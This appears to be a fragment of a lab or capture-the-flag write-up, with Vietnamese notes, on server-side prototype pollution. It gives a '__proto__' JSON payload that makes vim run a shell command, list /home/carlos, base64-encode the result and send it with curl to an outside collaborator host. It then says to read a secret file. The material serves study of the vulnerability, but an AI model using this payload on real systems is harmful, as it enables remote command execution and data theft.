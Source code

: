 ```jsx
"__proto__": {
    "shell": "vim",
    "input": ":! ls /home/carlos | base64 | curl -d @- https://abcdef.oastify.com\n"
  }
```

Mã hóa kết quả thành Base64 để gửi an toàn qua HTTP.

![image.png](Images/image%2028.png)

Đọc `/home/carlost/secret` để hoàn thành